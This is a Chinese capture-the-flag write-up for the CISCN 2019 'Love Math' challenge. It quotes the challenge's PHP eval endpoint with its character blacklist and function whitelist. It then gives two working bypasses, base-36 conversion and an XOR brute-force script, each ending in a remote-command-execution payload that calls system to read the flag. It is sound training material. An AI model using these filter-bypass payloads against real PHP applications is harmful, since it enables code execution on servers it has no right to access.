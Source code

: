 # \[CISCN 2019 初赛]Love Math

## \[CISCN 2019 初赛]Love Math

## 考点



## wp

给了源码，只能使用白名单里面的函数

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
} 
```

已知条件:

1. 传入的参数 c 进入 eval 函数中执行
2. c 的长度小于 80
3. c 中不含有黑名单中的字符
4. c 中的字符串必须在白名单中
5. 可以执行的函数只有白名单中的

思路:

1. 使用白名单里的字符构造 RCE 函数
2. 构造出 `$_GET/$_POST`传参，防止 c 长度过长
3. `!@#$%^&*()-+.{}|`等未被过滤
4. 这里在 url 栏输入 +\&# 是会被浏览器分别解析为空格，参数连接符，锚点，应使用URL编码后传入

### 第一种方法

通过进制转换来构造，16进制包含`0-9a-f`，没有包含所有字符，很难利用，但是36进制包含`0-9a-z`

例如，`hex2bin("5f474554")` 就是 `_GET`

![](<../.gitbook/assets/image (3).png>)

![](<../.gitbook/assets/image (32).png>)

最后就构造出来了构造出来了 `_GET`，是`base_convert(37907361743,10,36)(dechex(1598506324));`

在获取 GET/POST 的参数时，可以使用 `$_GET["a"]` 但是还有另外一种用法，使用$\_GET{a}。另外，PHP不加引号的内容，默认作为字符串处理，会抛出警告。

如此，把`base_convert(37907361743,10,36)(dechex(1598506324))`赋值给`pi`，在使用$pi，就可以获得`$_GET`，再进行传参就可以了，即如下

```php
<?php
$pi=base_convert(37907361743,10,36)(dechex(1598506324)); // _GET
($$pi){pow}($$pi{abs}); // $_GET["pow"]($_GET["abs"])
```

payload

```
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pow}($$pi{abs})&pow=system&abs=cat flag.php
```

### 第二种方法

通过异或来构造，在 php 中可以对字符串进行异或，其原理就是对字符串中每个字符对应的 ASCII 值进行异或，这就要通过爆破来进行了

```php
<?php
$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
foreach($whitelist as $w){
    for($a=1;$a<999999;$a++){
        $res = $w ^ decoct($a);
        if(strpos($res,"_POST")===0){
            echo $w.'   '.$a.'   ';
            echo $res;
            echo "\n";
        }
    }
}
```

![](<../.gitbook/assets/image (19) (1) (1).png>)

最终 payload: `?c=$pi=${(hexdec^decoct(31737))};$pi{pow}($pi{abs});`
